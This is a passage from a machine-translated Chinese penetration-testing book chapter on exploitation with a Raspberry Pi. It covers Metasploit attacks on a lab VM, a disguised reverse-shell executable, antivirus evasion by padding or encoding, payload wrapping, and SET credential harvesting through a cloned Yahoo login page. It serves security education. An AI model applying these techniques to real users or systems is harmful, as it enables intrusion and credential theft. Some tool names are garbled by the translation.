# 第五章采取行动-入侵和利用

现在，我们已经找到了进入目标环境的途径，并开始在[第 4 章](4.html#ch04 "Chapter 4.  Explore the Target - Recon and Weaponize")中收集信息，*探索目标-侦察和武器化*随着我们沿着渗透测试杀伤链的进一步发展，我们肯定会有一些攻击向量可以尝试。侦察和武器化阶段的准备工作为我们提供了环境、用户和网络中运行的应用程序的详细信息。孙子在《孙子兵法》一书中明智地指出：

> *“所以在战争中，方法就是避开强者，打击弱者。”*

通常情况下，我们的目标几乎会向我们宣布他们在侦察活动中的弱点。这些弱点正是我们现在需要探索和利用的。我们还应该注意到环境中更强大的部分和特点。更有经验的攻击者将避免这些感知到的优势，我们应该鼓励我们的客户也避免这些优势，并将重点放在劣势上。

我们发现本章中的工具是最有趣的。它们必须穿透目标并扩大我们的滩头阵地的可能性是无穷的，但负责任地使用它们是极其重要的。这些工具现在开始侵入主机和设备，我们需要明确的许可，需要充分了解我们的影响。这听起来很有趣，但我们想确保我们可以退出，不留下任何面包屑。这是杀戮链的阶段，我们可以让我们的客户和他们的用户陷入严重的麻烦，我们的声誉和他们的职业生涯处于平衡状态。文档和报告可以决定服务的成功与否，本书后面将介绍这一点。

本章涵盖以下主题：

*   使用 Metasploit 框架利用目标
*   使用集合的社会工程
*   牛肉钓鱼
*   处决中间人攻击
*   处理数据
*   恶意访问蜜罐
*   蓝牙测试

# 使用 Metasploit 框架开发目标

*Metasploit 项目*（[www.Metasploit.com](https://www.metasploit.com/)）被许多人视为针对目标机器执行漏洞代码的事实标准，自 2009 年以来一直得到专门从事漏洞分析的 Rapid7 公司的支持。Metasploit 框架最初由 HD Moore 创建，是一个基于 Ruby 的工具包，包含数百个针对各种平台的可用漏洞。测试人员或攻击者可以包括有效负载、编码器和带有漏洞模块的**无操作（NOP）**幻灯片生成器，以解决几乎所有与漏洞相关的攻击。Metasploit 受欢迎的关键在于它以脚本格式将复杂的攻击武装起来，这样普通用户可以在几分钟内发起复杂的攻击。有一个专业版，你必须支付，以及免费版本。专业版附带了一些附加功能，例如利用链接和专业控制台，仅举几个例子。

Metasploit 框架有许多不同的工具可用于利用系统。我们可用的工具如下：

*   **msfconsole**：这是访问 Metasploit 最常用的方式。`msfconsole`通过一系列上下文驱动的命令提示提供对整个框架的访问。
*   **漏洞利用**：漏洞利用会危害受害者机器，可分为主动漏洞利用和被动漏洞利用。活动的漏洞利用会一直运行，直到实现 shell 访问或由于某种异常错误而停止漏洞利用。另一方面，被动攻击要等到受害者机器连接到 Metasploit，然后 Metasploit 运行攻击。主动攻击和被动攻击的区别在于，Metasploit 将在主动攻击中启动连接，而在被动攻击中等待受害者。
*   **有效载荷**：Metasploit 允许攻击者使用单阶段和阶段作为有效载荷。对这些的描述以及何时使用它们可能会变得复杂，在这本基于 Raspberry Pi 的书中，我们不会过多地关注它们。我们建议您在 Metasploit Unreleased 主页上查找更多信息，该主页在本节末尾的提示中引用。
*   **数据库**：Metasploit 内置了对 PostgreSQL 数据库系统的支持。此数据库系统允许攻击者跟踪主机、网络和漏洞。在 Metasploit 中使用内置数据库的主要目的之一是跟踪您发现的内容，并帮助记录未来的攻击和报告。
*   **流量计**：这是 Metasploit 中最强大的资源之一。它在内存负载方面是动态的。根据被攻击的系统、漏洞的性质和运行方式，MeterMeter 可以为攻击者提供完整的外壳功能和远程控制受害机器。

### 提示

有许多很棒的书籍和资源可供学习 Metasploit。一个建议是在[发布 Metasploit 的免费攻击性安全引入 http://www.offensive- security.com/metasploit-released/Main_Page](https://www.offensive-security.com/metasploit-unleashed/)。它已经过时了，仍然是指回溯 Linux，但只要稍加努力，您就可以修改指南。

关于覆盆子圆周率，有一些事情你应该做不同的 Metasploit。例如，**Artmitage**是 Metasploit 的一个很好的覆盖 GUI，但在 Pi 上运行没有意义。你应该考虑的另一个变化是，在从 Kali-Linux ARM 映像运行时，一些 Meta ASMPLIT 模块不能正常工作。因此，我们建议您只发起非常特定的攻击。对于我们的示例，我们将假设 Raspberry Pi 可以访问内部网络，并且您希望确定要突破的目标。利用本地系统的步骤如下：

1.  使用*nmap*扫描网络，识别目标。
2.  使用*nmap*扫描目标可能存在的漏洞。
3.  搜索 Metasploit 以查找与*nmap*扫描期间识别的漏洞相匹配的攻击。
4.  对漏洞发起攻击。

如果成功，您将获得对系统的访问权限。

## 正在将侦察数据导入 Metasploit

当我们想要使用 Metasploit 时，我们可能需要参与大量的期权、股票开发和有效载荷。我们测试的早期阶段显示了您对目标网络的足迹，但我们如何将这些数据输入 Metasploit，以帮助我们快速将精力集中在有效向量上？使用 Metasploit，我们已经完成了很多这方面的工作，只有几个步骤可以让我们开始工作。以下是我们如何在测试中为主动入侵阶段播种这些信息：

1.  We'll first need to initialize a database to keep all of this information at the ready for our testing using `msfdb init` . If you have an old database in place, you can delete the database with `msfdb delete` and then begin fresh with `msfdb init` :

    

    ### 注

    该数据库有助于在我们的漏洞利用过程中保留 band 上的所有信息，虽然它可以使用 MySQL，但默认为 PostgreSQL。该数据库可以本地托管，也可以远程托管，这在我们希望有多个传感器参与测试时非常有用。在这里，我们只使用本地数据库。

2.  We can now start up Metasploit's console using `msfconsole` , enjoy the awesome rotating banner, and then verify that we are connected to our database:

    

3.  Once the database is all squared away, we need to be able to feed Metasploit with recon information on the target environment. There are a large variety of ways to do this, but a tool we already discussed, *nmap* , is nicely integrated with Metasploit. There are methods to accomplish our goal:
    *   我们可以单独使用`nmap`并添加一个选项。为此，我们将打开一个新的终端窗口，当运行`nmap`扫描时，我们需要做的就是附加`-oX`选项以生成**XML**（可扩展标记语言）输出并分配一个文件名：

    ```
    nmap -sS -oX [Target Filename] [Subnet/24 or Host]

    ```

    在我们的测试用例中，我们将使用：

    ```
    nmap -Pn -sS -A -oX TARGET1 192.168.10.128

    ```

    

    现在我们有一个屏幕转储和一个相应的 XML 文件，可以从`msfconsole`中导入到我们的数据库中：

    

    我们也可以使用`db_nmap`从`msfconsole`内部运行`nmap`扫描，以消除中间人：

    

    通过使用`hosts`命令查看数据库，我们可以看到我们的劳动成果：

    

## 作用域向量和发起攻击

一旦我们的主机文件中有一个或多个目标，我们就可以开始设想我们计划如何攻击它们。我们使用了一个方便的 Metasploitable 2 虚拟机（[https://sourceforge.net/projects/metasploitable/files/Metasploitable2/](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/) ）由 Rapid7 提供，为我们提供充足的载体和一次性机器。Metasploit 可以快速帮助我们改进方法，仅针对目标中存在的漏洞。那我们去打猎吧！

我们可以使用`msfconsole`中的 services 命令查看打开的端口、服务和版本的所有扫描结果：



看看这张单子，我们可以做出一些有根据的猜测，看看我们会有什么好运。第一个服务 FTP 看起来很有前途。我们可以列出`msfconsole`上可用的漏洞，或者使用树状结构猜测我们可以查找运行 FTP 服务器的 Unix 主机的漏洞，并最终得到此服务的确切漏洞。考虑到 FTP 通常作为核心服务运行，我们甚至可以访问 shell！但是如果搜索这些东西很容易，那不是很好吗？我们可以使用谷歌，学到很多东西，但 Metasploit 甚至包括它自己的`search`命令。

### 提示

真正的攻击者将获取发现并研究已知的漏洞，并在发起攻击之前搜索 Metasploit 中可用的内容。还要了解 Nmap 并非 100%准确。有时，防御者会使用不同的端口或 post 蜜罐来欺骗网络扫描器。

让我们试一试：


伟大的该漏洞的等级为“优秀”（这意味着它很有可能将我们带到我们想要去的地方），我们可以轻松地启动该漏洞的配置。当我们到达那里时，我们可以`show options`，并配置我们需要的任何空格或变量（在本例中，仅配置`RHOST`值），以便我们为成功做好准备。其他常见变量不仅包括远程主机（RHOST），还包括本地主机（LHOST）、本地端口（LPORT）和远程或目标端口（RPORT），仅举几个例子：


请记住，我们正在使用的一些攻击可能是被动的，因此将我们的 Kali box 或 C&C 服务器定位为目标服务器，而其他攻击将是主动的，并看到我们的 Pi 伸出手进行攻击。在这种情况下，这是一个积极的利用，所以我们应该看到即时满足。通过一个简单的`run`或`exploit`命令，Metasploit 将处理我们配置的攻击并无情地攻击主机，我们可以通过一个简单的命令来验证最终结果（后门已建立），以显示用户和目标的 IP 地址：


哇，那很容易，不是吗？我们现在可以访问这个主机了！每项服务都提供了一扇通向主机的潜在大门或一种妥协，可以帮助我们拥有系统并进一步实现我们的目标。Metasploit 甚至将我们与此漏洞的文档联系起来，我们可以通过使用`vulns`命令看到：


## 推出我们自己的功绩

对于下一次攻击，我们将创建一个有效负载，对其进行编码，使其绕过传统的安全防御，并将其放置在目标系统上。有效负载可以通过电子邮件或 USB 发送，或者如果利用漏洞成功获得基本系统访问权限，我们可以在目标系统上发送有效负载，以提升攻击者在该系统上的访问权限级别。

### 提示

最佳实践是在更强大的系统中创建有效负载，并通过 Raspberry Pi 传输它们，而不是直接在 Raspberry Pi 中创建它们。Metasploit 的强大之处在于其自动化任务的能力，再加上一些脚本，我们可以利用多个传感器组织攻击。

让我们看看如何开发有效负载并使用 Metasploit 对其进行编码。

在第一步中，如果尚未打开 Metasploit（msf 控制台），我们将打开 Metasploit，并`use`与特定漏洞对应的有效负载。与一般攻击一样，我们可以使用`show options`查看有效负载的选项，使用`?`查看命令，并指导我们完成整个操作。在我们的例子中，我们已经利用了一个最流行的漏洞，称为`reverse_tcp`有效负载，用于利用 Windows 系统进行攻击。下面的屏幕截图演示如何选择此有效负载并配置侦听地址，这是我们的系统在端口`4444:`上侦听的 IP 地址



Metasploit 可以为攻击生成不同的文件格式。它还可以填充或附加额外的字节，并应用编码器，从而掩盖有效负载，从而成功地规避典型的基于签名的反病毒程序。

### 提示

特征码检测寻找攻击中的特定特征。如果发现攻击无效，请尝试通过向文件中添加一堆垃圾来对其进行编码，然后再次发送。在许多情况下，添加足够多的垃圾会绕过检测，因为现在它看起来像一个新文件。其他技术包括将文件分解成更小的文件或加密。

我们有很多选项可以修改和定制我们自己的有效载荷：



在我们的示例中，我们将创建一个名为 important.exe 的可执行文件，以便受害者相信它是一个重要的更新。请注意，这是社会工程发挥作用的地方，这意味着我们可以将此可执行文件命名为用户希望安装的文件，并将其包含在社会工程活动中。要创建`important.exe`文件，我们将使用`-f`选项生成命令：



创建文件后，我们可以在根文件夹中找到该文件，如前面的屏幕截图所示。有趣的是想出了一个聪明的方法来愚弄受害者安装我们的杰作。如果我们能说服一个 Windows 用户安装它，我们将被授予一个后门，允许 root 用户访问该系统，假设一切都按预期运行。这个概念对于本章后面介绍的其他攻击示例非常有用，我们的自定义恶意软件负载可以攻击这些示例。

## 包装有效载荷

隐藏有效负载的另一种方法是使用受信任的应用程序包装它。例如，我们可以通知潜在的受害者，他们的 Adobe Reader 已过时，并使用后门负载包装适当的升级文件。当受害者安装`.exe`文件时，他们将获得更新和额外的不必要的后门。

这是一种非常有效的方式来补充有针对性的社会工程攻击。我们将在本章后面的*牛肉网络钓鱼*一节中提到这种方法，在这里我们将有一个弹出窗口，诱使用户点击并下载包装好的负载。由于这个原因，许多通过第三方网站提供的浏览器扩展和软件包也是危险的。对我们的客户及其用户进行有关合法补丁、附件使用和可接受的安装介质或来源的教育，对于帮助他们避免这些有效负载至关重要。

虽然 Raspberry Pi 渗透测试手册不包括包装有效载荷，但仍有一些工具可供使用，如**Senna Spy One**和**RAT Packer**就是为此而设计的。下面的屏幕截图显示了 Senna 仪表板使用 Windows calculator 可执行文件包装**ROOTKIT.exe****有效负载。当用户运行该文件时，将弹出计算器，并安装**ROOTKIT.exe****有效负载。通过研究 Senna 或其他包装工具，您可以了解有关包装有效负载的更多信息：****

 ****

# 社会工程

当有人邀请我们进来时，我们更容易穿过大门。大多数安全架构都是为了防止不速之客进入目标网络而构建的，但是当攻击者愚弄内部用户打开门让他们进来时会发生什么呢？攻击者常常假装自己不是某个人，例如有权威的人或家庭成员，以获得受害者的信任。成功后，用户可能会放弃密码、访问凭据或其他有价值的秘密。有一些关于著名黑客的故事，他们仅仅通过微笑着索取知识产权就可以获得知识产权。

在 Kali Linux 中有许多工具可用于协助社会工程活动；然而，最成功的攻击是基于理解目标受众并滥用他们的信任。例如，我们使用社交媒体来源（如 LinkedIn 和 Facebook）上的假账户获取敏感信息，这不需要任何先进的技术来实现我们的大部分目标。其他例子包括假装自己是管理员时打电话给某人，或发送电子邮件声称自己是久违的家庭成员。

### 提示

一个很好的练习是阅读你的社交媒体账户档案，然后问问自己，如果有人向你提供了所有相同的公共信息，你是否能够识别出来。

在本章中，我们将重点介绍一种最流行的社会工程攻击工具**社会工程工具包（SET）。**在功能更强大的系统上，SET 可能会运行得更好。最佳实践是利用 Raspberry Pi 进行现场侦察，可用于构建从远程 web 服务器执行的成功社会工程攻击。

我们将使用另一种流行的用于开发浏览器的社会工程工具**浏览器开发框架（BeEF**-我们不知道额外的*e*来自何方，但最终结果很吸引人）。

## 社会工程师工具包

集合（[https://www.trustedsec.com/social-engineer-toolkit/](https://www.trustedsec.com/social-engineer-toolkit/) 由 TrustSec 的 David Kennedy 开发，并预装了 Kali Linux。它经常被用来复制谷歌、Facebook 和 Twitter 等受信任的网站，目的是吸引受害者对其发起攻击。当受害者在不知情的情况下舒适地坐在咖啡店的椅子上浏览这些重复的网站时，攻击者可以收集受害者的密码，甚至注入一个命令外壳，使他们能够完全访问受害者系统。对于安全专业人士来说，这是一个很好的工具，可以证明只要页面看起来合法，用户往往不会注意他们输入敏感信息的位置。

您可以从树莓 Pi 运行 SET；然而，受害者对互联网速度的体验将限于 Raspberry Pi 提供的吞吐量和服务马力。我们在测试中发现，受害者在被重定向到真正的网站之前，有时仍然会经历明显的延迟，从而提醒他们可能受到攻击。在本书的第一版中，与原始的树莓 Pi 相比有了显著的改进，但我们仍然将 Pi 作为重定向工具（充当中间的 m**an**（**MITM**）或中毒 DNS）和 C&C 服务器或专用主机来提供欺骗站点。因此，我们建议您在使用 Raspberry Pi 以保持性能影响不明显时，将 SET 攻击的目标锁定在特定用户，而不是空白受众。请记住，对于某些 SET 攻击，您还将运行 apacheweb 服务和其他服务，这也会影响性能。另一个要考虑的选项是使用诸如亚马逊这样的服务来租用服务器来托管牛肉，并使用本地树莓 PI 来进行网络钓鱼，以将它们拿到牛肉登陆页面。

在这本书的第一版中，Gmail 被克隆。虽然这仍然可以实现，但我们应该对目标用户进行一些研究，看看我们是否最好专注于一个通常不涉及双因素身份验证的流行帐户。虽然这对用户有好处，但现在谷歌在鼓励使用双因素身份验证以最小化借用凭据的影响方面做了大量工作，这让我们的生活变得更加复杂，就像这次攻击一样。我们发现像 Yahoo 和 LinkedIn 这样的热门网站的双因素用户比例较低，所以我们将在本例中使用 Yahoo。

如下图所示，目标是让受害者相信他们正在访问他们的 Yahoo 帐户，并在登录后将他们重定向到真正的 Yahoo 网站，但将他们的登录凭据存储在我们设置的实例中。诀窍是让受害者访问 SET 服务器，这就是你的社会工程能力发挥作用的地方。例如，您可以通过电子邮件发送链接，在社交媒体源上发布链接，或通过毒害 DNS 将流量定向到攻击服务器（在本例中，树莓 Pi 非常有用）。攻击者可以远程访问 Raspberry Pi，从中提取被盗凭证，以获得最终渗透测试报告。

让我们来看看如何在树莓 Pi 上使用 SET。下面是一个图表，我们可以使用它来帮助想象这次攻击的样子：



前沿存储库是 Kali 中的一项新功能，包括基于流行工具的日常构建，如 SET、**dnsrecon、rfidiot、****beef xs**，以及其他一些有价值的工具。最佳实践是启用**前沿回购**，并在将其用于实时渗透测试之前测试我们的练习，因为情况可能会发生轻微变化。以下命令显示如何启用前沿回购：

```
echo deb http://http.kali.org/kali kali-bleeding-edge 

contrib non-free main >> /etc/apt/sources.list 
apt-get update 
apt-get upgrade

```

如果我们不愿意生活在边缘，不要害怕！我们可以使用其 GitHub 存储库单独安装 SET。要安装 SET，我们需要确保安装了`git`。我们可以通过键入`apt-get install git`来完成此操作。一旦安装到位，我们就可以克隆 SET 的存储库，并通过键入以下内容（在`toolkit`和`set`之间的空格是故意的）在本地安装它：

```
git clone https://github.com/trustedsec/social-engineer-toolkit/ set/ 

```

所有这些之后，我们现在状态良好，只需输入`setoolkit`（我们可能需要在`/set`文件夹中）。如果我们单独安装，我们将被要求放弃我们没有运行前沿回购协议，然后我们将看到一个菜单，其中包含许多有趣的管理和快速启动选项，我们将选择选项**1）社会工程攻击**：



在这个菜单中，我们将有许多不同的选项，可以让我们攻击各种常见的用户或管理员接触点，例如通过电子邮件进行的钓鱼攻击、基于媒体的攻击、*PowerShell*黑客攻击，以及我们针对本用例的攻击、**2）网站攻击向量**：



我们对网站向量的选择是非常多用的。我们绝对建议了解其中的一些，因为每一个都提供了一个有用的方法来扩展我们的滩头阵地，并找到其他方法进入我们的目标环境。对于本例，我们将选择选项**3）凭证收割机攻击方法**，这样我们就可以抓取我们可怜的目标用户的登录凭证：


我们可以使用内置模板或导入自定义站点（对企业门户或使用较少的 web 应用程序有用），但为什么不直接克隆当前站点呢？我们将选择选项**2）站点克隆器**。这将使我们的 Kali Raspberry Pi box 或 C&C 服务器成为这些网站的恶意前端，表现为真正的交易并继续使用诡计：



为了成功，我们需要两条信息。首先，我们需要选择一个未经邀请的 web 服务器的 IP 地址来接受连接。请记住，我们必须弄清楚如何让用户使用此地址，无论是通过执行 MITM 攻击、使用我们的 IP 毒害 DNS，还是为他们提供链接或重定向以使他们访问我们的站点。第二条信息是我们要克隆的站点的 URL。输入后点击*回车*键，SET 将验证 Apache（本例中为*apache2*）是否已启动并运行，复制要克隆的网站，然后在我们输入的 IP 开始服务该网站：

### 提示

当我们第一次在 Pi 上运行 SET 时，我们遇到了一些与缺少 Python 函数有关的有趣问题。您可以安装 Python 的最新版本，然后使用`pip install pexpect`或`easy_install pexpect`。我们没有在非 ARM Kali 图像中遇到这些问题。

